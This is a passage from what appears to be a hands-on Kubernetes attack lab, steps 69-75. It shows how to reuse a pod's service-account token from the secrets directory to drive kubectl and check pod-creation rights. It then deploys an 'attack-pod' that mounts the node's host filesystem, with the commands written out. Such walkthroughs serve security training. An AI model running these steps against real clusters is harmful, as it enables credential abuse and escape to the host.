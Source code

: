     export DIR="/run/secrets/kubernetes.io/serviceaccount"

    alias kubectl="/data/kubectl --token=`cat $DIR/token` \
    --certificate-authority=$DIR/ca.crt \
     --server=https://kubernetes.default.svc.cluster.local:443"
    ```

69. Now let's ask if we are allowed to create pods:

    ```shell
    kubectl auth can-i create pods
    ```

70. We got a yes! Take a look at my attack-pod.yaml file:

    ```shell
    cat attack-pod.yaml
    ```

71. In that YAML file, take a look at the `containers:` section's `volumeMounts:` list - this tells Kubernetes what named "volume" to mount onto what path in the container.

72. Also, note how the named volume `mount-root-into-mnt` is described in the `volumes:` section, showing what path from the node's host filesystem gets that name.

73. Finally, in that YAML file, notice that the container image we've chosen is `k8s.gcr.io/redis:e2e`.  We chose that because it's likely cached on the Kubernetes nodes. How would you determine this? You want to run a command like this, with the correct values for `STR1` and `STR2`:

    ```
    kubectl get pod redis-master-STR1-STR2 -o yaml | grep "image:"
    ```

    Here's a version you can copy and paste:

    ```shell
    kubectl get pod \
     `kubectl get pods | grep redis-master | awk '{print $1}' ` 
      -o yaml | grep "image:"
    ```

74. Let's deploy this attack pod, with a `kubectl apply -f`:

    ```shell
    kubectl apply -f attack-pod.yaml
    ```

    You can also tell Kubernetes to let you know when the new pod is ready:

    ```shell
    kubectl wait --for=condition=ready pod/attack-pod
    ```

75. Let's see where our pod is running, using:

    ```shell
    kubectl get pods -o wide
    ```
